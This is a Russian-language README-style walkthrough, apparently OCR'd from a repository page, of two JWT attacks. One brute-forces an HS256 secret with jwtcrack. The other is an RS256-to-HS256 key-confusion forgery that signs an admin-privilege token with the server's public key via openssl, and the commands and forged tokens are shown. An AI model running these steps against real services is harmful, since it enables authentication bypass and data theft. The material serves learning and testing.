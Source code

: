 Взлом HS256 тупо брутом.  
```
$ ./jwtcrack eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.r2JjnalFCyz14WuyIukEpocbfoNcO9HcV-28TUHgSvc qwertyuiopasdfghjklzxcvbnm
Secret is "secret"
```

Подмена ассиметричного шифрования RS на симметричное HS
```
	b64_public = base64.standard_b64encode(public).decode()
  ```
Так как сервер выдает публичный ключ, то мы можем его использовать для того чтобы обмануть механизм шифрования. Так как в методах не захардкожено, необходимое шифрование, мы может заставить сервер шифровать и расшифровывать сигнатуру токена с использованием симметричного шифрования по публичному ключу.
```
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDIfXNTOUNW9t6gH0OURcsbYu9f
AQIkL9fUxsIckicd67DIOyotPquMo5Ak0MJWjlirWkZnBZIyDoLkzr9a28KMhxzM
5aGvuuj5DyPBeQeJJz1Duimtw/OcbY9sUtNhQNrq2Ww2EMrjuTQXyG2Yaf6uNmlW
LB+v4AZ99OepLO+DpQIDAQAB
-----END PUBLIC KEY-----
```
Переведу его значение в hex и изменив данные в поле header (меняется шифрования с асимметрии на симметрию поле alg) и payload (добавлю в токен права админа потому что почему бы и нет) и подпишу этим публичным ключом вновь собраннуй json.
```
 "тело токена" | openssl dgst -sha256 -mac HMAC -macopt hexkey:ключвхексе
```
После чего верну получившиеся значение подписи в формат сигнатуры base64UrlEncode
```
 base64.urlsafe_b64encode(binascii.a2b_hex('db3a1b760eec81e029704691f6780c4d1653d5d91688c24e59891e97342ee59f')).replace('=','')
```
В итоге получаем токен админа, прошедший проверку ассиметричной подписи.
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6dHJ1ZX0.IFQI6Zh9Gja_d48CKHo80SZonepddPiemcz_l8WyfFI
```

https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/january/jwt-attack-walk-through/

## Инструменты

- PyJWT library (https://github.com/jpadilla/pyjwt)
- Burp suit (https://portswigger.net/burp)


## Ущерб

1. Если токены используются для контроля серверов, то велика вероятность слива или удаления всей базы данных.

2. Получение прав на изменение данных на серверах и сайтах.
